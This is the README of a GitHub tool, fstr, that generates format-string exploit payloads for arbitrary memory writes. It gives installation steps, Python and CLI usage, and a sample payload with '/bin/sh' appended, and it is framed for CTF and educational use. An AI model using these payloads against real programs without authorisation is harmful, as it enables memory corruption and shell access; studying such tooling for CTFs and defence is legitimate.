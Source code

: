 # fstr: Automatic format string payloads
fstr is a powerful tool which instantly generates payloads for arbitrary writes using format string vulnerabilities. Unlike other automated payload generators, fstr writes all addresses to the end of the payload instead of the beginning to make sure that the vulnerable printf acutally reaches all the format specifiers.
![demo](images/demo.png)

# Installation
Create a virtual environment if you haven't already:
```
python3 -m venv .venv
. .venv/bin/activate
```
Then install:
```
git clone https://github.com/TheKrizzler/fstr.git
pip3 install ./fstr
```
# Usage
This tool is primarily meant as a python library, but it also has a CLI.
## Python
To start off, create either a `FormatString64` or `FormatString32` object with the following arguments: writes, offset, append.  
  
Simply use the `.craft()` method to create the payload. This method will return the payload as a bytestring, so it can be saved and used later.
```python
from fstr import FormatString64

addr = 0x7fffffffdc00
data = 0x4011ae

fmtstr = FormatString64(writes={addr:data},offset=6,append='/bin/sh\0')
payload = fmtstr.craft()
```
`write`: Takes a dictionary containing all desired writes.  
`offset`: An integer representing the offset at which your own input can be found using a format string vulnerablity. **The payload will not work if the offset is incorrect**   
`append`: A string to append to the payload. Does the exact same thing as appending text manually.  
## CLI
Run the following command to see the help menu.
```
$ fstr -h
usage: fstr [-h] -w WRITE --arch {32,64} [-o OFFSET] [-a APPEND] [-r]

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        REQUIRED - Specify a single address:data pair in hex, i.e 0x404000:0x1337. Can
                        be used multiple times.
  --arch {32,64}        REQUIRED - Specify either 32-bit or 64-bit architecture
  -o OFFSET, --offset OFFSET
                        Specify the offset at which your input is found using a format string vulnerability
  -a APPEND, --append APPEND
                        Specify a string to append to the payload
  -r, --raw             Outputs the only final payload as raw bytes.
```
Example use:
```
$ fstr --arch 64 -w 0x404000:0x1337 -o 6 -a '/bin//sh'
  __       _         
 / _|     | |        
| |_  ___ | |_  _ __ 
|  _|/ __|| __|| '__|
| |  \__ \| |_ | |   
|_|  |___/ \__||_|   
by @TheKrizzler
[*] b'%9$hn%10$n%4919x%11$hn..\x02@@\x00\x00\x00\x00\x00\x04@@\x00\x00\x00\x00\x00\x00@@\x00\x00\x00\x00\x00/bin//sh'
[*] Length: 56

```
# Disclaimer
fstr is a tool designed exclusively for use in Capture The Flag (CTF) competitions and educational purposes. It is not intended for any illegal or malicious activities. The creators and distributors of fstr do not condone or support the use of this tool for unauthorized access or any activities that violate applicable laws and regulations. Users are responsible for ensuring that their use of fstr complies with all relevant legal requirements.

